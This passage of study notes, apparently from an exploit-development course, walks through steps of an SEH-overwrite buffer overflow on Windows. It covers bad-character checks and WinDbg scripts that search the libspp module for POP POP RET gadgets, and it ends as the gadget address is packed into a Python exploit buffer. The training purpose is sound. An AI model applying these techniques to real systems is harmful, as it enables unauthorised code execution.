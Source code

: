     ```
    0132f338  77f16b12 ntdll!ExecuteHandler2+0x26
    0132f33c  0132f440
    0132f340  0132ff54
    0132f344  0132f45c
    0132f348  0132f3cc
    ```

8. We then run `db 0132ff54` then see which characters are bad characters. Most of the time the buffers are not enough, so once we confirm they are safe we need to remove them from the list.
9. Restart the debugger. Next need to search POP POP RET by first `.load narly`, then use `!nmod` to find a modules without null bytes (or even bad characters? not sure). After this just execute `lm m libspp` to locate the start and end address of the library (libspp in this example based on previous output).
10. (OPTIONAL) Using Kali `msf-nasm_shell`, can check that pop eax is 58, pop ebx is 5b, pop ecx is 59, pop edx is 5a, pop esi is 5e, pop edi is 5f, pop ebp is 5d and ret is c3.
11. Create a file below named `find_ppr.wds` and CHANGE the start and end address with the one we located in step 9. The first code excludes POP ESP which we cant use whereas the second code is the original unmodified in course.

    ```
    .block
    {
        .for (r $t0 = 0x58; $t0 < 0x5F; r $t0 = $t0 + 0x01)
        {
            .if ($t0 == 0x5C) { .continue }  ; skip POP ESP in outer byte
            .for (r $t1 = 0x58; $t1 < 0x5F; r $t1 = $t1 + 0x01)
            {
                .if ($t1 == 0x5C) { .continue }  ; skip POP ESP in inner byte
                s-[1]b 10000000 10226000 $t0 $t1 c3
            }
        }
    }

    ```

    ```
    .block
    {
        .for (r $t0 = 0x58; $t0 < 0x5F; r $t0 = $t0 + 0x01)
        {
            .for (r $t1 = 0x58; $t1 < 0x5F; r $t1 = $t1 + 0x01)
            {
                s-[1]b 10000000 10226000 $t0 $t1 c3
            }
        }
    }
    ```

12. Execute it in WinDBG using the command `$><C:\Users\offsec\Desktop\find_ppr.wds`. Use anyone of it to confirm it is PPR: `u 1015a2f0 L3`.
13. Update your Python code so that it contains the address (From ChatGPT can use `inputBuffer += b"\xf0\xa2\x15\x10"` as well if don't want to use pack):
